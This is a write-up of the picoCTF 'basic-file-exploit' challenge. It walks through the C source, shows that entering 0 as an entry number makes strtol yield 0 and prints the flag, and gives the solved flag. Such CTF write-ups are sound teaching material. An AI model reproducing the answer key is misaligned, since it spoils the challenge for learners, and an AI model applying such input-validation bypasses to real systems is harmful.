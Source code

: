 # `basic-file-exploit`

https://play.picoctf.org/events/70/challenges/challenge/252

## Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!

Connect to the program with netcat:
```bash
nc saturn.picoctf.net 52682
```

The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/537/program-redacted.c).


## Compile and Test

Let's download and compile the program using [`compile.sh`](../../../../../c/compile_c.sh):

```bash
wget https://artifacts.picoctf.net/c/537/program-redacted.c

compile.sh program-redacted.c
```

Testing binary out, we can see that there's a menu where we can type a choice to (1) insert some data, (2) read some data and (3) exit the program.




If we look at the program source code, we can see that the flag will be printed out to the console when the following condition is met:

```bash
grep "flag" program-redacted.c -B1 | tail -2
```
```c
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
```

So what we need to do is make sure that the expression `strtol(entry, NULL, 10)` is equal to 0.

`strtol` is a function that converts a string to a long integer value and has the following declaration:

```c
long int strtol(const char *str, char **endptr, int base)
```


The first argument is the actual string where the number can be found.

The second argument is a pointer to the remaining string after the number has been extracted from the first argument. 

The third argument is the base (binary, octal, decimal, hexadecimal).

Now that we understand what the `strtol` function does, we can see that we're going to convert the `entry` into a base 10 integer and set it to the `entry_number` variable. The `if` condition checks if `entry_number` is 0.

This essentially means that we need to feed number `0` into the program when it's asking us for the entry number.

Trying that, we see that there's validation if we haven't yet entered any data into the program (option 1):


```bash
./program-redacted-32
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
No data yet
```

Let's try to first enter some dummy data:

```
./program-redacted-32
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
give me the flag
Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
Please enter the entry number of your data:
0
[REDACTED]
```

Great, so we see that this works locally!

Running the same sequence of inputs on the actual CTF server, we get the actual flag:


```bash
❯ nc saturn.picoctf.net 52682
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
give me the flag
give me the flag
Please enter the length of your data:
1
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_038A9E95}
```